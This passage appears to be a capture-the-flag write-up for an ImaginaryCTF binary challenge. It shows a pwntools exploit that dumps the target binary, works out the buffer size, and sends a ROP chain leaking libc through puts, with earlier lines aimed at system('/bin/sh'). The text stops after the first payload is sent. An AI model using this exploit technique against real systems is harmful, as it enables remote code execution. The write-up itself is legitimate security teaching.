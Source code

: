 ```gets: 0x7f3313d3f040```
payload += p64(libc + 0x181519)       # "/bin/sh" 
payload += p64(libc + 0x0449c0)       # system()
```


## Launching the exploit
Finall version of the exploit is: 

[![asciicast](https://asciinema.org/a/430559.svg)](https://asciinema.org/a/430559)

Exploit code:
```py
from pwn import *
import base64
import struct
import os
server = remote("chal.imaginaryctf.org", 42020)



# get software dump
server.recvuntil("---------------------------BEGIN  DATA---------------------------")
server.recvline()
binary_base64 = server.recvline()
binary_hex = base64.b64decode(binary_base64).hex().upper()




# save data to file
exploit_binary = open('2hack', 'wb')
bytes_object = bytes.fromhex(binary_hex)
exploit_binary.write(bytes(bytes_object))
exploit_binary.close()
binary = ELF('./2hack')
context.binary = binary
os.chmod("./2hack", 0o777)




# scan with pattern
pattern_prefix = "4889E54881EC"
index = binary_hex.index(pattern_prefix) + 12
array_size = int(str(binary_hex[index + 4] + binary_hex[index + 5] + binary_hex[index + 2] + binary_hex[index + 3] + binary_hex[index] + binary_hex[index + 1]), base=16)
print("Array size: ", array_size)
padding = array_size + 8



# creating first payload
payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    #pop rdi; ret
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(0x0000000000401142)    # main
server.sendline(payload)
print("useless line: ", server.recvline())
print("useless line: ", server.recvline())



```